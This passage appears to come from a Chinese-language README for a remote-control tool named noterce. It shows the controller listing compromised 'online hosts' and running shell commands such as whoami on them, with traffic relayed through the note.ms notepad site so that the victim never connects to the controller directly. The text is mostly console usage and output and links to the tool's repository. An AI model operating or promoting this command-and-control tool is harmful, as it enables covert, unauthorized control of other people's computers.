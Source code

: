 控制端 client
1. 控制端刷新在线主机列表
username$ ./client
```
0:主机名:[penetration]  note地址:[BpLnfgDsc3WD9F3qNfHK6a95jjJkwz]       notekey地址:[zhu1234554321zhu]

1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)
```

2. 控制端执行命令
```
username$ ./client
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)

2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```

![图片](https://user-images.githubusercontent.com/85468097/235185477-ea69159f-615b-44c2-a6d3-bd7e400a69d4.png)

这里可以看到目标主机是与note.ms建立的连接，而不是与控制端直接进行连接的。

![图片](https://user-images.githubusercontent.com/85468097/235076866-e8dca6e0-5098-429a-a98a-8eee9c47f201.png)

## 0x04工具信息

工具地址:https://github.com/xiao-zhu-zhu/noterce

作者联系方式:`230300272@qq.com`

